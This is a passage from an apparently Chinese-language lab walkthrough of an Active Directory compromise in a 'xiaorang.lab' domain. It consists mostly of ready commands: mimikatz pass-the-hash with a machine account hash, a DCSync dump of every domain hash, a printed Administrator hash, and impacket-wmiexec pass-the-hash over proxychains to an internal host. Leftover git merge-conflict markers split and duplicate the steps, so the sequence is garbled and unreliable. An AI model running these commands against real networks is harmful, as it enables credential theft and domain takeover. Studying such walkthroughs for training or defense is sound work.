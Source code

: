 利用 mimikatz dcsync dump 域控 hash

```plain
=======
```bash
shell C:\Users\Aldrich\Desktop\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:b1b840a5c19c4290a284204df50126a6" "exit"
```

[![](assets/1710465355-4d7d0d41452a00ed25ebe6a800888bb7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095601-0299e6f0-e1a6-1.png)

利用 mimikatz dcsync dump 域控 hash

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
shell C:\Users\Aldrich\Desktop\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

得到 Administrator 的 hash

<<<<<<< HEAD
```plain
2c9d81bdcf3ec8b1def10328a7cc2f08
```

```plain
proxychains impacket-wmiexec -hashes 00000000000000000000000000000000:2c9d81bdcf3ec8b1def10328a7cc2f08 Administrator@172.22.8.15
```

[![](assets/1710898702-ef4575cc57ec16c08626f43cdd266ccb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095609-06ddccc2-e1a6-1.png)
